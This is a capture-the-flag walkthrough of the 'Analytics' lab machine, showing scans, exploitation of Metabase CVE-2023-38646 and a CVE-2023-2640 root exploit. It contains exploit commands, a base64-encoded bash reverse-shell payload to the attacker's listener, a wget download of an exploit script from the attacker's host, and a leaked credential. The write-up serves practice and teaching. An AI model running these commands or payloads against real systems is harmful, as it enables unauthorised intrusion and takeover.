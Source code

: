 # Analytics Box - Walkthrough by Jack Buchanan

## Introduction:

This is a detailed walkthrough of the "Analytics" machine, demonstrating the steps I took to enumerate, exploit, and escalate privileges to root access.

---

## Enumeration:

As with any CTF challenge, the first step is gathering as much information as possible about the target. I performed a **Nmap** scan to identify open ports and services running on the target machine.

### Nmap Scan Command:

`sudo nmap -sC -sV -sS -n 10.10.11.233`

### Nmap Scan Results:


`PORT   STATE SERVICE VERSION 22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0) 80/tcp open  http    nginx 1.18.0 (Ubuntu)`

From the scan, two open ports were identified:

- **Port 22 (SSH)**: Running OpenSSH 8.9p1.
- **Port 80 (HTTP)**: Running Nginx 1.18.0 on Ubuntu.

Since SSH was open, I noted it as a potential entry point for later but decided to focus on exploring the web server running on port 80.

---

## Exploring the Web Server:

Navigating to `http://analytical.htb`, I discovered a login page. Interestingly, I noticed that the email parameter on the page didn’t send any HTTP requests, which seemed unusual. To gather more information, I decided to scan the page further with **Nuclei**, a tool for vulnerability scanning, which helped uncover valuable insights.

### Nuclei Scan Command:

`nuclei -u http://data.analytical.htb`

### Nuclei Scan Output:



`[CVE-2023-38646] [http] [critical] http://data.analytical.htb/api/setup/validate [metabase-panel] [http] [info] http://data.analytical.htb/auth/login [v0.46.6]`

The **Nuclei** scan revealed that the server was running **Metabase version 0.46.6**, an open-source business intelligence tool that allows users to create dashboards and charts from various data sources. More importantly, the scan flagged a critical vulnerability, **CVE-2023-38646**, in the `/api/setup/validate` endpoint, which can be exploited for **Remote Code Execution (RCE)** during the Metabase setup process.

---

## Exploit:

### Exploiting CVE-2023-38646:

Upon further research, I found a **Proof of Concept (PoC)** exploit for **CVE-2023-38646** on GitHub. The PoC enabled me to exploit the vulnerability in the Metabase API to achieve RCE.

[Link to PoC Exploit](https://github.com/securezeron/CVE-2023-38646/blob/main/CVE-2023-38646-Reverse-Shell.py)

I executed the exploit with the target address (`http://data.analytical.htb`) and my own listener IP:

### Exploit Command:

`/home/skid/python3/python3/bin/python /home/skid/python3/python3/exploit.py --rhost http://data.analytical.htb --lhost 10.10.14.61 --lport 4444`

### Exploit Output:

`[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties... [DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f [DEBUG] Version: v0.46.6 [DEBUG] Payload = YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE0LjYxLzQ0NDQgMD4mMQ== [DEBUG] Sending request to http://data.analytical.htb/api/setup/validate... [DEBUG] Response received: {"message":"Vector arg to map conj must be a pair"} [DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400`

Despite the failure message (`"Vector arg to map conj must be a pair"`), I was able to manipulate the payload successfully and gained a reverse shell on the system. Once I had access to the shell, I started looking for ways to escalate privileges.

---

## Privilege Escalation

Once inside the machine, I began looking for ways to escalate privileges. The first step was to check the environment variables for any sensitive information.

### Checking Environment Variables

Using the `env` command, I found an interesting environment variable containing credentials:


`env 
META_PASS META_PASS=An4lytics_ds20223#`

This password allowed me to **SSH** into the machine as the `metalytics` user.

### Kernel Version and OS Information

Next, I checked the kernel version and the operating system details:

`uname -r 6.2.0-25-generic`

`lsb_release -a Description:    Ubuntu 22.04.3 LTS`

Given the kernel version and the fact that I was running on Ubuntu 22.04.3, I searched for any relevant privilege escalation vulnerabilities.

### Exploiting CVE-2023-2640 for Privilege Escalation

After some research, I found that the machine was vulnerable to **CVE-2023-2640**. I discovered an exploit on GitHub that could be used to escalate privileges to root.

**Exploit Link**: [CVE-2023-2640 Exploit](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/blob/main/exploit.sh)

To use the exploit, I hosted it on my local machine using a Python server and downloaded it to the target:

`wget http://10.10.14.61:8000/exploit.sh chmod +x exploit.sh`

I then ran the exploit:

`./exploit.sh`

**Exploit Output**:

`[+] You should be root now [+] Type 'exit' to finish and leave the house cleaned`

The exploit successfully granted me root access!

---

## Root Access

With root access, I was able to retrieve the final flag:

`cat /root/root.txt 0e216a82f5752d038b569096ef342dcb`

---

## Conclusion

This box demonstrated how a critical vulnerability in a widely used open-source tool like Metabase can lead to full system compromise. By chaining enumeration, exploitation of **CVE-2023-38646**, and privilege escalation through **CVE-2023-2640**, I was able to gain root access.